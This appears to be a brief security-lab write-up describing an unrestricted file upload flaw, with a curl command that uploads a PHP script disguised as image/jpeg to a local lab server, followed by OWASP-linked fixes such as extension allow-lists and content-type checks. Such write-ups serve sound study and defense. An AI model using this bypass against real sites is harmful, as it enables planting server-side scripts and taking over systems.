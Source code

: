 ## Unrestricted File Upload

Here we see that there is no protection against the upload of a script if this one is cast as a jpeg, so we force the upload of a script by using type as image/jpeg :
```bash
curl.exe -F "Upload=send" -F "uploaded=@script.php;type=image/jpeg" http://192.168.56.101/index.php?page=upload > test.txt
```

## Patch 
[many solution presented by OWASP org](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload#Prevention_Methods_.28Solutions_to_be_more_secure.29)

most of it is list of authorize extension, 
“Content-Type” Header Validation
Using a File Type Detector
